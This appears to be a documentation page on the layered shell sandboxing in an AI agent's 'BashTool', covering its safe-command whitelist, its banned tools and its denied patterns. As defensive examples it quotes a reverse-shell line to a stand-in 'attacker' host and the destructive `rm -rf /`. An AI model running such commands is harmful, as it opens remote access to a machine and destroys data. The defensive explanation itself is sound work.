

# Shell Command Sandboxing

### From: bash

Shell command sandboxing is the security practice of restricting shell command execution to prevent unauthorized or dangerous operations, implemented in BashTool through multiple complementary mechanisms. The core challenge is that shells are designed to be powerful and flexible, with extensive capabilities for file manipulation, network access, and system modification—precisely the capabilities that make them dangerous when exposed to potentially malicious or erroneous AI-generated commands. BashTool's approach exemplifies defense-in-depth architecture, where no single control provides complete protection but layered checks collectively reduce attack surface. The sandbox operates at the command level rather than through OS-level containment like containers or seccomp, making it suitable for scenarios where the agent needs broad shell capability but with policy restrictions.

The first layer of BashTool's sandbox is positive security through whitelisting: the SAFE_COMMANDS array defines an explicit set of benign operations that can proceed without user confirmation. This includes file management (ls, cd, mkdir), version control (git, gh), build tools (cargo, npm, make), and text processing (grep, sed, awk). The prefix-matching logic allows command variants while maintaining safety—`git status` is allowed because it starts with `git`, but arbitrary git commands are still constrained to the git tool's own argument validation. Notably, `rm` is deliberately excluded from the safe list despite being a common file operation, because prefix matching cannot distinguish `rm file.txt` from catastrophic `rm -rf /`. This demonstrates careful threat modeling where convenience is sacrificed for safety.

Negative security controls provide the second layer: BANNED_COMMANDS blocks high-risk tools entirely, including network clients (curl, wget), attack tools (nmap, metasploit), and privilege escalation utilities. DENIED_PATTERNS extends this with pattern matching for dangerous operation signatures—destructive filesystem operations, disk formatting, fork bombs, credential exfiltration, and privilege escalation attempts. These patterns reveal sophisticated attack modeling, covering not just obvious threats but subtle variants like `bash -i >& /dev/tcp/attacker/1234` for reverse shells and encoded obfuscation attempts. The directory escape detection prevents sandbox breakout through path traversal, enforcing that operations remain within the designated working directory. Together, these layers create a sandbox that is permissive enough for realistic development work while blocking the majority of accidental or intentional system compromise vectors.

## Diagram

## External Resources

- [OWASP Command Injection prevention guide](https://www.owasp.org/index.php/Command_Injection) - OWASP Command Injection prevention guide
- [OWASP OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html) - OWASP OS Command Injection Defense Cheat Sheet

## Related

- [Command Injection Prevention](command-injection-prevention.md)

## Sources

- [bash](../sources/bash.md)
